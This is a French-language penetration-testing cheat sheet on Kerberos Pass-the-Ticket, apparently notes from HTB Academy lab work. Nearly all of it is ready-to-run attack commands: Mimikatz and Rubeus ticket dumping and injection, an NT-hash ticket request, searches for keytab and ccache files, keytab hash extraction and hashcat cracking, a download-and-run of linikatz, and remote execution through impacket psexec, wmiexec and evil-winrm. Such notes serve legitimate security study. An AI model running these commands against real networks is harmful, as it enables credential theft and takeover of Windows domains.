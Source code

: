 
# Pass The Ticket (PtT)

Permet de passer un ticket kerberos

## WINDOWS

### Mimikatz

Exporter les tickets au format kirbi

```cmd
.\mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit
```

Pass The Ticket avec un ticket kirbi et ouvre un nouveau cmd

```cmd
.\mimikatz.exe privilege::debug 'kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"' misc::cmd
```

PSRemoting (WinRM)
 
```Powershell
Enter-PSSession -ComputerName DC01
```


### Convertir Kirbi en Base64

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

### Rubeus

Exporter tous les ticket au format base64

```cmd
.\Rubeus.exe dump /nowrap
```

Afficher tous les tickets

```powershell
.\Rubeus.exe triage
```

Dump un ticket au format base64

```powershell
.\Rubeus.exe dump /luid:<luid> /service:krbtgt
```

Pass The Ticket avec un ticket kirbi

```cmd
.\Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

Pass The Ticket avec le ticket en base64

```cmd
.\Rubeus.exe ptt /ticket:<base64>
```

Pass The Ticket avec le hash NT (écrase les autres tickets)

```cmd
.\Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

Lancer un cmd sans écraser les tickets dans la session

```cmd
.\Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

PSRemoting (WinRM)
 
```Powershell
Enter-PSSession -ComputerName DC01
```


---

## LINUX

> [!IMPORTANT]
> Tickets au format CCACHE à injecter dans la variable KRB5CCNAME
> Sauvegarder une copie du ccache file présent dans KRB5CCNAME
> Les tickets sont généralement stockés dans /tmp
> 
> Keytab files -> Contient une paire de kerberos principal et clés chiffrées dérivées du mot de passe kerberos  -> permet de s'authentifier sur des systèmes sans entrer de mot de passe
> kinit -> permet interaction avec kerberos

### Vérifier si la machine est jointe à un domaine

```shell
realm list
```

ou

```shell
ps -ef | grep -i "winbind\|sssd"
```


## FICHIERS KEYTAB
### Recherche de fichiers keytab

```shell
find / -name *keytab* -ls 2>/dev/null
```

```shell
find / -name *.kt -ls 2>/dev/null
```

### Lister les informations d'un fichier keytab

```shell
klist -k -t /opt/specialfiles/carlos.keytab
```

### Impersonation du user avec kinit

```shell
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```

### Extraction du hash du fichier keytab avec [keytabextract](https://github.com/sosdave/KeyTabExtract)

```shell
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```

### Bruteforce avec [[HASHCAT]]

```shell
hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```



## FICHIERS CCACHE
### Recherche de fichiers ccache

```shell
find / -name krb5cc* -ls 2>/dev/null
```

### Recherche de fichiers ccache dans /tmp

```shell
ls -la  /tmp
```

### Afficher les variables d'environnement pour les fichiers ccache

```shell
env | grep -i krb5
```

### Afficher le ticket en cache

```bash
klist
```

### Importer fichier CCACHE dans la session

```shell
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```

### [LINIKATZ](https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh)(root)

équivalent de Mimikatz pour linux.

install

```shell
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
```

```shell
./linikatz.sh
```


### IMPACKET

#### Pass The Ticket
##### PsExec

```shell
impacket-psexec dc01 -k -no-pass
```
##### WmiExec

```shell
impacket-wmiexec dc01 -k -no-pass
```
##### AtExec

```shell
impacket-atexec dc01 -k -no-pass
```
##### SmbExec

```shell
impacket-smbexec dc01 -k -no-pass
```

#### Convertir ccache en kirbi

```shell
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```


### EVIL-WINRM

#### Installer kerberos authentification package "krb5-user"

```shell
sudo apt-get install krb5-user -y
```

Entrer le realm
Entrer le hostname du DC

#### Pass the ticket

```shell
evil-winrm -i dc01 -r inlanefreight.htb
```









